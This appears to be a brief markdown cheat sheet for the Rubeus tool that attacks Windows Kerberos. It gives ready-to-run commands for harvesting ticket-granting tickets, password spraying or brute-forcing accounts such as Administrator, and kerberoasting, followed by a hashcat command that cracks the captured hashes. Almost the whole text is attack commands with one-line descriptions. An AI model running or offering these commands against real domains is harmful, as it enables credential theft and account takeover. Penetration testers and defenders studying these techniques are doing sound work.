```yaml
---
category: Uncategorized
tags: []
---
```

### harvest
- Gathers TGT flowing from a KDC every x interval.
```powershell
.\Rubeus.exe harvest /interval:30
```
### brute
- Used to bruteforce or password spray kerberos credentials.
```powershell
# password spray
.\Rubeus.exe brute [OPTIONS] /noticket
# [OPTIONS]
/password:Passw0rd!
/passwords:password.txt
/username:Administrator
/usernames:username.txt
```
### kerberoast
- Perform kerberoasting attack
```powershell
.\Rubeus.exe kerberoast /nowrap

# Hash can be cracked with
hashcat -m 13100 hash.txt pass.txt
```